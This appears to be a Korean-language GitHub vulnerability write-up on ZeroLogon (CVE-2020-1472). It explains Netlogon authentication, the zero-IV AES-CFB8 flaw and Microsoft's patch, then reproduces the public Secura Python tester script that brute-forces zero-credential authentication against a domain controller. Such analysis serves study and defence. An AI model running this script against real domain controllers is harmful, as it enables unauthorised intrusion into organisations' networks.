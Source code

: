 ﻿


﻿ZeroLogon 취약점 
==========
Information
-----
* CVE-2020-1472
* 해당 소프트웨어 : Active Directory (Windows Server Directory Service)
* 해당 버젼 : Over Windows Server 2008 R2
*  취약점 유형 : 계정 탈취 취약점

Description
---

해당 취약점은 공격자가 Domain Controller에 대한 TCP 연결을 수립할 수 있다면 Active Directory 상의 모든 계정의 password를 초기화 할 수 있는 취약점이다. 

Root Cause
---
### Active Directory
Active Directory란  Windows Server에서 제공하는 Directory Service
*  Directory Service는 중앙 서버에 공통된 데이터베이스를 생성하여 각 서버와 클라이언트는 해당 데이터베이스를 공유하여 Object를 검색하고 중앙에서 사용자 인증 및 권한 부여 처리가 가능하도록 처리해주는 서비스 

* Domain Controller는 Active Directory를 운영하는 서버 컴퓨터 

* 중앙에 DB를 두고 계정들에 대한 인증을 수행한 후에 요청하는 서비스들을 정상적으로 이용할 수 있다. 
![이미지](/val0ur/CVE/blob/main/CVE-2020-1472/AD%201.PNG)



### Netlogon Protocol
Domain Controller에서 Domain Client를 인증할 때 Netlogon Protocol을 사용한다. 
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/netlogon%20%EC%9D%B8%EC%A6%9D%20%EA%B3%BC%EC%A0%95.PNG)

1. Client와 Server는 Random 8-Byte nonce 값을 교환한다. (Client Challenge, Server Challenge)

2.  KDF를 사용하여 Session Key를 생성한다. 
    > Session Key = KDF(Client PW Hash + Client Challenge + Server Challenge)
  3. Client는 Session Key를 이용해 Client Credential 생성 후 서버로 전송
  4. Server에서 Client가 보낸 Client Credential과 Server에서 계산한 Client Credential이 같으면 정상 Client로 간주하고 Server Credential을 전송 
  5. Client는 만들어진 Session Key를 가지고 이 Credential을 sign + seal 하여 권한이 필요한 작업을 수행한다. 
	  > 4의 인증 수립 후 Message들에 대해 sign + seal을 할지는 Flag 값을 통해 변경 가능 



### Vulnerability
위의 인증과정에서 Client와 Server는 Credential Value를 만들기 위해 NlComputeCredentials 함수를 사용하는데 
암호화 과정에서 IV 값이 0으로 고정되어 있어 발생하는 취약점 

공격자는 해당 취약점을 이용해서 Client Credential을 0으로 만들 수 있고 정상적인 Client로 인증 후 계정의 password를 초기화 시킬 수 있다. 

#### Details 
- NlComputeCredentials 함수는 8-Byte Input(Server 입장에서는 Client Challenge)를 받아 암호화 하여 8-Byte의 Credential을 만든다. 

- 해당 함수는 2DES or AES 암호화를 지원하는데 최근 대부분의 Domain Server는 AES 방식만을 사용한다. 
- 암호화 과정의 NlInitializeCNG 함수를 통해 AES-CFB8을 사용한다는 것을 알 수 있다. 
 ![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/NlInitializeCNG%20func.PNG)

##### AES-CFB8
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/AES-CFB8%20encryption.PNG)

- AES-CFB8은 16 바이트의 IV값을 가진다.
- IV에 Session Key를 인자로  AES를 수행하고 나온 결과값의 첫 바이트와 Plain Text의 첫 바이트를 XOR 하여 Cipher Text를 만든다. 
- IV 값이 랜덤 값일 경우에는 평문을 안전하게 암호화 할 수 있지만 NlComputeCredentials 함수에서는 IV 값을 0으로 사용한다. 

		그렇다면 IV 값이 0일 때 생기는 문제는 무엇인가? 

##### AES-CFB8 (when IV = 0)
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/AES-CFB8%20all-zero.PNG)

- IV 값을 Session Key로 AES를 수행한 후 나온 결과값의 첫 바이트가 0이라면 Plain Text도 0이고 Cipher Text도 0인 경우가 생긴다. 

- 공격자 입장에서는 Session Key를 몰라도 암호화한 결과값의 첫 바이트가 0이 되는 경우만 찾으면 Cipher Text도 0이 되므로 해당 취약점을 이용할 수 있다. 

인증은 NetServerAuthenticate3 함수에서 수행하며 NlComputeCredentials를 통해 Server가 계산한 ClientCredential(MADE)과 Client가 보낸  ClientCredential(GOT)가 동일하다면 인증해준다. 

![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/NetServerAuthenticate3%20func.PNG)

// Zerologon을 활용한 Exploit 부분 아직 안 넣음

Patch
---
20년 8월 MS사는 CVE-2020-1472 패치를 출시했고 21년 2월 9일에 추가 패치를 출시할 예정이다. 

- 현재 패치는 Netlogon Protocol을 변경하고,

- 비규격 장치 검색용으로 이벤트를 기록하고, 
- 명시적 예외를 포함하는 모든 도메인 참가 장치에 대한 보호를 사용하도록 설정하는 기능이 추가됐다. 
 

POC
---
공개된 PoC는 아래와 같다. 

![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/poc1.PNG)
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/poc2.PNG)
![이미지](https://github.com/val0ur/CVE/blob/main/CVE-2020-1472/poc3.PNG)

```Python

#!/usr/bin/env python3

from impacket.dcerpc.v5 import nrpc, epm
from impacket.dcerpc.v5.dtypes import NULL
from impacket.dcerpc.v5 import transport
from impacket import crypto

import hmac, hashlib, struct, sys, socket, time
from binascii import hexlify, unhexlify
from subprocess import check_call

# Give up brute-forcing after this many attempts. If vulnerable, 256 attempts are expected to be neccessary on average.
MAX_ATTEMPTS = 2000 # False negative chance: 0.04%

def fail(msg):
  print(msg, file=sys.stderr)
  print('This might have been caused by invalid arguments or network issues.', file=sys.stderr)
  sys.exit(2)

def try_zero_authenticate(dc_handle, dc_ip, target_computer):
  # Connect to the DC's Netlogon service.
  binding = epm.hept_map(dc_ip, nrpc.MSRPC_UUID_NRPC, protocol='ncacn_ip_tcp')
  rpc_con = transport.DCERPCTransportFactory(binding).get_dce_rpc()
  rpc_con.connect()
  rpc_con.bind(nrpc.MSRPC_UUID_NRPC)

  # Use an all-zero challenge and credential.
  plaintext = b'\x00' * 8
  ciphertext = b'\x00' * 8

  # Standard flags observed from a Windows 10 client (including AES), with only the sign/seal flag disabled. 
  flags = 0x212fffff

  # Send challenge and authentication request.
  nrpc.hNetrServerReqChallenge(rpc_con, dc_handle + '\x00', target_computer + '\x00', plaintext)
  try:
    server_auth = nrpc.hNetrServerAuthenticate3(
      rpc_con, dc_handle + '\x00', target_computer + '$\x00', nrpc.NETLOGON_SECURE_CHANNEL_TYPE.ServerSecureChannel,
      target_computer + '\x00', ciphertext, flags
    )

    
    # It worked!
    assert server_auth['ErrorCode'] == 0
    return rpc_con

  except nrpc.DCERPCSessionError as ex:
    # Failure should be due to a STATUS_ACCESS_DENIED error. Otherwise, the attack is probably not working.
    if ex.get_error_code() == 0xc0000022:
      return None
    else:
      fail(f'Unexpected error code from DC: {ex.get_error_code()}.')
  except BaseException as ex:
    fail(f'Unexpected error: {ex}.')


def perform_attack(dc_handle, dc_ip, target_computer):
  # Keep authenticating until succesfull. Expected average number of attempts needed: 256.
  print('Performing authentication attempts...')
  rpc_con = None
  for attempt in range(0, MAX_ATTEMPTS):  
    rpc_con = try_zero_authenticate(dc_handle, dc_ip, target_computer)
    
    if rpc_con == None:
      print('=', end='', flush=True)
    else:
      break

  if rpc_con:
    print('\nSuccess! DC can be fully compromised by a Zerologon attack.')
  else:
    print('\nAttack failed. Target is probably patched.')
    sys.exit(1)


if __name__ == '__main__':
  if not (3 <= len(sys.argv) <= 4):
    print('Usage: zerologon_tester.py <dc-name> <dc-ip>\n')
    print('Tests whether a domain controller is vulnerable to the Zerologon attack. Does not attempt to make any changes.')
    print('Note: dc-name should be the (NetBIOS) computer name of the domain controller.')
    sys.exit(1)
  else:
    [_, dc_name, dc_ip] = sys.argv

    dc_name = dc_name.rstrip('$')
    perform_attack('\\\\' + dc_name, dc_ip, dc_name)

References
---
[1] [Secura - Zerologon(CVE-2020-1472)](https://www.secura.com/blog/zero-logon)

[2] [PoC - SecuraBV](https://github.com/SecuraBV/CVE-2020-1472)

[3] [A different way of abusing Zerologon](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)





